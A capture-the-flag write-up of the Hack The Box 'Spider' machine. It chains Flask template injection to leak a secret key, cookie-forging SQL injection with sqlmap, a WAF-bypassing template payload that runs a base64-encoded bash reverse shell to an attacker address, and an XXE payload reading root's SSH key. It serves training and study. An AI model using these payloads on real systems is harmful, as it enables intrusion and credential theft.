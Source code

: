 ```yaml
---
permalink: /spider
layout: post
author: InfoSecJack & chivato
title: Writeup
date: 2021-10-24
publish: True
description: "Spider is a hard difficulty Linux machine which focuses on web-based injection attacks. Server-Side Template Injection (SSTI) is first exploited to read the config object of a Flask application and obtain the SECRET_KEY string, which can be used to sign and verify session cookies. An SQL injection attack carried through forged cookies allows attackers to retrieve login data from the database and gain administrative access to the web application. A second SSTI vulnerability is found in a support ticket portal. Exploiting this vulnerability, which requires bypassing a Web Application Firewall, results in arbitrary code execution and ultimately in an interactive shell on the system. Privileges can then be escalated by exploiting an XML External Entity (XXE) injection vulnerability in a beta web application running locally,
"
---
```


# Enumeration

Nmap

```bash
sudo nmap -sC -sV -oA nmap/spider 10.10.10.243

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 28:f1:61:28:01:63:29:6d:c5:03:6d:a9:f0:b0:66:61 (RSA)
|   256 3a:15:8c:cc:66:f4:9d:cb:ed:8a:1f:f9:d7:ab:d1:cc (ECDSA)
|_  256 a6:d4:0c:8e:5b:aa:3f:93:74:d6:a8:08:c9:52:39:09 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://spider.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.81 seconds

```

Add spider.htb to /etc/hosts file

![](/Writeups/Spider/Pasted image 20211023205658.png)

Registering new user

![](/Writeups/Spider/Pasted image 20211023210019.png)

![](/Writeups/Spider/Pasted image 20211023210948.png)

Created user as {{config}} for SSTI, because config exist for every server

![](/Writeups/Spider/Pasted image 20211023211119.png)

got details of the file config

![](/Writeups/Spider/Pasted image 20211023211149.png)

## config

```php

<Config {'ENV': 'production'
 'DEBUG': False
 'TESTING': False
 'PROPAGATE_EXCEPTIONS': None
 'PRESERVE_CONTEXT_ON_EXCEPTION': None
 'SECRET_KEY': 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942'
 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31)
 'USE_X_SENDFILE': False
 'SERVER_NAME': None
 'APPLICATION_ROOT': '/'
 'SESSION_COOKIE_NAME': 'session'
 'SESSION_COOKIE_DOMAIN': False
 'SESSION_COOKIE_PATH': None
 'SESSION_COOKIE_HTTPONLY': True
 'SESSION_COOKIE_SECURE': False
 'SESSION_COOKIE_SAMESITE': None
 'SESSION_REFRESH_EACH_REQUEST': True
 'MAX_CONTENT_LENGTH': None
 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0
 43200)
 'TRAP_BAD_REQUEST_ERRORS': None
 'TRAP_HTTP_EXCEPTIONS': False
 'EXPLAIN_TEMPLATE_LOADING': False
 'PREFERRED_URL_SCHEME': 'http'
 'JSON_AS_ASCII': True
 'JSON_SORT_KEYS': True
 'JSONIFY_PRETTYPRINT_REGULAR': False
 'JSONIFY_MIMETYPE': 'application/json'
 'TEMPLATES_AUTO_RELOAD': None
 'MAX_COOKIE_SIZE': 4093
 'RATELIMIT_ENABLED': True
 'RATELIMIT_DEFAULTS_PER_METHOD': False
 'RATELIMIT_SWALLOW_ERRORS': False
 'RATELIMIT_HEADERS_ENABLED': False
 'RATELIMIT_STORAGE_URL': 'memory://'
 'RATELIMIT_STRATEGY': 'fixed-window'
 'RATELIMIT_HEADER_RESET': 'X-RateLimit-Reset'
 'RATELIMIT_HEADER_REMAINING': 'X-RateLimit-Remaining'
 'RATELIMIT_HEADER_LIMIT': 'X-RateLimit-Limit'
 'RATELIMIT_HEADER_RETRY_AFTER': 'Retry-After'
 'UPLOAD_FOLDER': 'static/uploads'}>
```

On googling parameters we can find something related to flask.

## Flask Unsigned cookie

Unsigning cookie using flask

https://book.hacktricks.xyz/pentesting/pentesting-web/flask#flask-unsign

Sql-inject with flask_unsign.

https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap#eval

```bash

sqlmap http://spider.htb --eval "from flask_unsign import session as s; session = s.sign({'uuid': session}, secret='Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942')" --cookie="session=*" --dump

```

```sql
+----+--------------------------------------+------------+-----------------+
| id | uuid                                 | name       | password        |
+----+--------------------------------------+------------+-----------------+
| 1  | 129f60ea-30cf-4065-afb9-6be45ad38b73 | chiv       | ch1VW4sHERE7331 |
| 2  | 05c31009-d105-41bd-bf71-d1bdacf5a2ee | aaa        | 12345           |
| 3  | 539619f4-cf01-451f-8b1e-f3c392cec0b6 | {{7*7}}    | 12345           |
| 4  | 05b87d4f-91cd-448a-8db3-15783f9526dc | {{config}} | 12345           |
| 5  | 6bee5cc6-928a-4371-8d9b-007c2b760243 | nullbyte   | Qwertyasd$      |
| 6  | d694bef9-793b-4cb2-95d8-9a449243cd1e | {{config}} | 123             |
| 7  | 85085523-c4c7-4a5d-887a-69f2216ec268 | {{config}} | fDtyA4W5q7T22c8 |
+----+--------------------------------------+------------+-----------------+


```

# Admin

Signing in as admin using chiv's uuid and password obtained from sqlmap.

![](/Writeups/Spider/Pasted image 20211023214517.png)

After loggin in we can find a unfinished support portal.

![](/Writeups/Spider/Pasted image 20211023214637.png)

![](/Writeups/Spider/Pasted image 20211023214926.png)

After a while trail and error found bad characters which are blocking by WAF. Executing [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---filter-bypass)after escaping bad character.

```python

\{% include request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("sleep 2")|attr("read")() %}

```

![](/Writeups/Spider/Pasted image 20211023220907.png)

Got a reverse shell

```bash

{% include request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("echo+YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjEwLjE0LjEzOC85MDAxIDA%2bJjEK+|+base64+-d+|+bash")|attr("read")() %}
```

![](/Writeups/Spider/Pasted image 20211024081248.png)

tty shell

```bash

python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + z
stty raw -echo;fg
Enter Enter
export TERM=xterm


```

Copy id_rsa of chiv

![](/Writeups/Spider/Pasted image 20211024081815.png)

# User

![](/Writeups/Spider/Pasted image 20211024081935.png)

another server run in port 8080

![](/Writeups/Spider/Pasted image 20211024082027.png)

we can forward the port to our machine using following commands

```bash

shift +~+C
-L 8081:127.0.0.1:8080

```

![](/Writeups/Spider/Pasted image 20211024082358.png)

![](/Writeups/Spider/Pasted image 20211024082508.png)

Intersecpt the request in burpsuite and replace data in request with follow to get id_rsa

```xml

username=%26username%3b&version=1.0.0--><!DOCTYPE+foo+[<!ENTITY+username+SYSTEM+"/root/.ssh/id_rsa">+]><!--

```

# Root

![](/Writeups/Spider/Pasted image 20211024090436.png)

copy id_rsa and change permission

```bash

chmod 600 id_rsa

```

![](/Writeups/Spider/Pasted image 20211024093237.png)
